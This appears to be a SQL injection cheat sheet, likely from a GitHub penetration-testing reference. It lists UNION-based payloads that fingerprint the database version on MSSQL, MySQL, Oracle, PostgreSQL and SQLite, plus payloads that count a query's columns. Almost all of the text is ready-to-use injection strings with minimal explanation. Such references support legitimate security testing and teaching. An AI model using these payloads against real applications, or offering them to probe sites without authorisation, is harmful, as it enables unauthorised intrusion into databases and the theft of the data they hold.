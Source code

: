 <br />

## Version Detection

### MSSQL

```html
' UNION SELECT @@version--
' UNION SELECT NULL,@@version--
```

### MySQL

```html
' UNION SELECT @@version-- -
' UNION SELECT @@version#

' UNION SELECT NULL,@@version-- -
' UNION SELECT NULL,@@version#
```

### Oracle

```html
' UNION SELECT 'a' FROM dual--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT * FROM v$version--
' UNION SELECT BANNER,NULL FROM v$version--
```

### PostgreSQL

```html
' UNION SELECT version()--
' UNION SELECT NULL,version()--
```

### SQLite

```html
' UNION SELECT sqlite_version()--
' UNION SELECT sqlite_version(),NULL--
```

<br />

## Detect Number of Columns

The following commands detect the number of the columns in the database.

```html
' UNION SELECT NULL--
' UNION SELECT NULL-- -

' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL-- -

' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- -

' UNION SELECT 'a',NULL,NULL--
' UNION SELECT 'a',NULL,NULL-- -

' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,'a',NULL-- -

' UNION SELECT NULL,NULL,'a'--
```